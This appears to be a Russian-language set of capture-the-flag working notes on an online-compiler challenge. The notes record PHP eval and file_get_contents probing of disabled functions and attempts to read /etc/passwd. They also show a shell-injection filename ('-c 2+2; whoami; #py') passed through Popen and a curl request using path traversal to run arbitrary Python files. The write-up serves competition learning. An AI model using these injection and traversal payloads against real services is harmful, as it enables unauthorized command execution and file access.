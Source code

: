 # PHP
## Базовая команда
```php
<?php
echo "11";
echo file_get_contents('/home/app/test/nlthas.php');
echo "22";
?>
```

---

## php.ini
В php.ini есть запрещенные к выполнению функции,
но `file_get_contents()` среди них нет.

В `disable_functions` есть:
- opendir, file_exists, is_writable, is_file, и пр.
- file_put_contents и пр.
- [Все функции для работы с файловой системой](https://www.php.net/manual/en/ref.filesystem.php)
(кроме `file_get_contents()`)

Доступные функции:
- var_dump
- print_r
- eval

### Cписок доступных функций
Как пользоваться:
- `make` - сгенерировать `all+.txt` и `available.txt`.
- `make clean` - убрать `all+.txt` и `available.txt`.

Файлы:
- `all.txt` - с
[оф. сайта](https://www.php.net/manual/en/indexes.functions.php)
- `all+.txt` - с сайта + запрещенные
- `available.txt` - не запрещенные

---

## file_get_contents()
Работает только в `/home/app/test/`
(почему - строка 318 php.ini)

Не работает с:
- /etc/passwd
- /nlthas.php
- nlthas.php
- file:///etc/passwd
- /home/app/.bashrc
- /home/app/app.py
- /home/app/test/app.py
- /usr/lib/python3.9/unittest/__main__.py

Работает с:
- /home/app/test/свой_файл.php
- file:///home/app/test/свой_файл.php
- http://www.example.com/

### get_defined_functions()
Не выдает eval, но eval работает

### eval()
Работает
```php
<?php
echo "11 ";
eval("echo file_get_contents('/home/app/test/eholos.php');");
echo " 22";
?>
```

---


# app.py
- Нельзя предсказать random
- Запустил сервис у себя, сделаю docker, если кому-то надо будет


# def compile() (часть с питоном)

## Popen()
Popen() выполняет первый аргумент **через шелл**.
Если через `check_file()` протолкнуть

`filename = '-c 2+2; whoami; #py'`,

то таск решен.

---

- Для питона другая папка: `/home/app/testpy/` вместо `/home/app/test/`

---

## Можно запустить любой файл на питоне:
- `check_file()` проверяет один файл, а запускается другой,
  так как CWD не в `/home/app/test/`
- `cd ../` работает в /
- `../../../` выравнивает `'/home/app/testpy/'+filename` и `filename`,
так что `check_file()` проверяет тот файл, который потом запустится

```bash
curl 'http://onlinecompiler.2021.3k.ctf.to:5000/compile' \
  --data-raw 'c_type=python&filename=../../../usr/lib/python3.8/unittest/__main__.py'
```

### Ответы:
- noop - файл должен оканчиваться на 'py'
- failed - файла не существует
- <пусто>, или что-то еще - файл был запущен

---

### Запуск папки
- Можно запустить папку, если в ней есть `__main__.py`
- Нельзя запустить папку, если в ней есть `__main__`
- Папка `/home/app/testpy` не запускается
